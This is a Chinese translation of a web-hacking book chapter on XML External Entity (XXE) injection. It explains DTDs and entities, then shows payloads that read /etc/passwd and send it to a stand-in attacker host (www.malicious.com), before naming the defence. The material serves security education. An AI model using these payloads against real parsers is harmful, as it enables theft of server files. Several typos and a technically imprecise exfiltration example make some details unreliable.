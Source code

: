 # 十四、XML 外部实体注入

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

XML 外部实体（XXE）漏洞涉及利用应用解析 XML 输入的方式，更具体来说，应用程序处理输入中外部实体的包含方式。为了完全理解理解如何利用，以及他的潜力。我觉得我们最好首先理解什么是 XML 和外部实体。

元语言是用于描述其它语言的语言，这就是 XML。它在 HTML 之后开发，来弥补 HTML 的不足。HTML 用于定义数据的展示，专注于它应该是什么样子。房子，XML 用于定义数据如何被组织。

例如，HTML 中，你的标签为`<title>`, `<h1>`, `<table>`, `<p>`，以及其它。这些东西都用于定义内容如何展示。`<title>`用于定义页面的标题，`<h1>`标签定义了标题，`<table>`标签按行和列展示数据，并且`<p>`表示为简单文本。反之，XML 没有预定义的标签。创建 XML 文档的人可以定义它们自己的标签，来描述展示的内容。这里是一个示例。

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

读完了之后，你可以大致猜测出 XML 文档的目的 -- 为了展示职位列表，但是如果它在 Web 页面上展示，你不知道它看起来是什么样。XML 的第一行是一个声明头部，表示 XML 的版本，以及编码类型。在编写此文的时候，XML 有两个版本，1.0 和 1.1。它们的具体区别超出了本书范围，因为它们在你渗透的时候没什么影响。

在初始的头部之后，标签`<jobs>`位于所有其它`<job>`标签的外面。`<job>`又包含`<title>`、`<compensation>`和`<responsibilities>`标签。现在如果是 HTML，一些标签并不需要（但最好有）闭合标签（例如`<br>`），但是所有 XML 标签都需要闭合标签。同样，选取上面的例子，`<jobs>`是个起始标签，`</jobs>`是对应的闭合标签。此外，每个标签都有名称，并且可以拥有属性。使用标签`<job>`，标签名称就是`job`，但是没有属性。另一方面，`<responsibility>`拥有名称`responsibility`，并拥有属性`optional`，由属性名称`optional`和值`1`组成。

由于任何人可以定义任何标签，问题就来了，如果标签可以是任何东西，任何一个人如何知道如何解析和使用 XML 文档？好吧，一个有效的 XML 文档之所以有效，是因为它遵循了 XML 的通用规则（我不需要列出它们，但是拥有闭合标签是一个前面提过的例子），并且它匹配了它的文档类型定义（DTD）。DTD 是我们继续深入的全部原因，因为它是允许我们作为黑客利用它的一个东西。

XML DTD 就像是所使用的标签的定义文档，并且由 XML 设计者或作者开发。使用上面的例子，我就是设计者，因为我在 XML 中定义了职位文档。DTD 定义了存在什么标签，它们拥有什么属性，以及其它元素里面有什么元素，以及其他。当你或者我创建自己的 DTD 时，一些已经格式化了，并且广泛用于 RSS、RDF、HL7 SGML/XML。以及其它。

下面是 DTD 文件的样子，它用于我的 XML。

```xml
<!ELEMENT Jobs (Job)*> 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> 
<!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0">
```

看一看这个，你可能猜到了它大部分是啥意思。我们的`jobs`标签实际上是 XML `!ELEMENT`，并且可以包含`job`元素。`job`是个`!ELEMENT`，可以包含标题、薪资和职责，这些也都是`!ELEMENT`，并且只能包含字符数据（`#PCDATA`）。最后，`!ELEMENT responsibility`拥有一个可选属性（`!ATTLIST`），默认值为 0。

并不是很难吧？除了 DTD，还有两种还未讨论的重要标签，`!DOCTYPE`和`!ENTITY`。到现在为止，我只说了 DTD 文件是我们 XML 的扩展。要记住上面的第一个例子，XML 文档并不包含标签定义，它由我们第二个例子的 DTD 来完成。但是，我们可以将 DTD 包含在 XML 文档内，并且这样做之后， XML 的第一行必须是`<!DOCTYPE>`元素。将我们的两个例子组合起来，我们就会得到这样的文档：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
]> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

这里，我们拥有了内部 DTD 声明。要注意我们仍然使用一个声明头部开始，表示我们的文档遵循 XML 1.0 和 UTF8 编码。但是之后，我们为 XML 定义了要遵循的`DOCTYPE `。使用外部 DTD 是类似的，除了`!DOCTYPE `是`<!DOCTYPE note SYSTEM "jobs.dtd">`。XML 解析器在解析 XML 文件时，之后会解析`jobs.dtd`的内容。这非常重要，因为`!ENTITY`标签被近似处理，并且是我们利用的关键。

XML 实体像是一个信息的占位符。再次使用我们之前的例子。，如果我们想让每个职位都包含到我们网站的链接，每次都编写地址简直太麻烦了，尤其是 URL 可能改变的时候。反之，我们可以使用`!ENTITY`，并且让解析器在解析时获取内容，并插入到文档中。你可以看看我们在哪里这样做。

与外部 DTD 文档类似，我们可以更新我们的 XML 文档来包含这个想法：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity, Website)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
<!ELEMENT Website ANY> 
<!ENTITY url SYSTEM "website.txt"> 
]> 

<jobs>
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
        <website>&url;</website> 
    </job> 
</jobs>
```

这里你会注意到，我继续并添加了`Website`的`!ELEMENT `，但是不是`#PCDATA`，而是`ANY`。这意味着`Website`可以包含任何可解析的数据组合。我也定义了一个`!ENTITY`，带有`SYSTEM`属性，告诉解析器获取`wensite.txt`文件的数据。现在一切都清楚了。

将它们放到一起，如果我包含了`/etc/passwd`，而不是`website.txt`，你觉得会发生什么？你可能户菜刀，我们的 XML 会被解析，并且服务器敏感文件`/etc/passwd`的内容会包含进我们的内容。但是我们是 XML 的作者，所以为什么要这么做呢？

好吧。当受害者的应用可以滥用，在 XML 的解析中包含这种外部实体时，XXE 攻击就发生了。换句话说，应用有一些 XML 预期，但是在接收时却不验证它。所以，只是解析他所得到的东西。例如，假设我正在运行一个职位公告板，并允许你注册并通过 XML 上传职位。开发我的应用时，我可能使我的 DTD 文件可以被你访问，并且假设你提交了符合需求的文件。我没有意识到它的危险，决定天真地解析收到的内容，并没有任何验证。但是作为一个黑客，你决定提交：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]> 
<foo>&xxe;</foo>
```

就像你现在了解的那样，当这个文件被解析时，我的解析器会收到它，并且看到内部 DTD 定义了`foo`文档类型，告诉它`foo`可以包含任何可解析的数据，并且有个`!ENTITY xxe`，它应该读取我的`/etc/passwd`文件（`file://`的用法表示`/etc/passwd`的完整的文件 URL 路径），并会将`&xxe;`替换为这个文件的内容。之后你以定义`<foo>`标签的有效 XML 结束了它，这会打印出我的服务器数据。这就是 XXE 危险的原因。

但是等一下，还有更多的东西。如果应用不打印出回应，而是仅仅解析你的内容会怎么样？使用上面的例子，内容会解析但是永远不会反回给我们。好吧，如果我们不包含本地文件，而是打算和恶意服务器通信会怎么样？像是这样：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY % xxe SYSTEM "file:///etc/passwd" > 
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"> 
]> 
<foo>&callhome;</foo>

```

在解释它之前，你可能已经注意到我在`callhome` URL 中使用了`%`来代替`&`，`%xxe`。这是因为`%`用于实体在 DTD 定义内部被求值的情况，而`&`用于实体在 XML 文档中被求值的情况。现在，当 XML 文档被解析，` callhome !ENTITY `会读取`/etc/passwd`的内容，并远程调用`http://www.malicous.com`，将文件内容作为 URL 参数来发送，因为我们控制了该服务器，我们可以检查我们的日志，并且足够确保拥有了`/etc/passwd`的内容。Web 应用的游戏就结束了。

所以，站点如何防范 XXE 漏洞？它们可以禁止解析任何外部实体。

> 链接

> 查看 [OWASP 外部实体（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

> [XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)
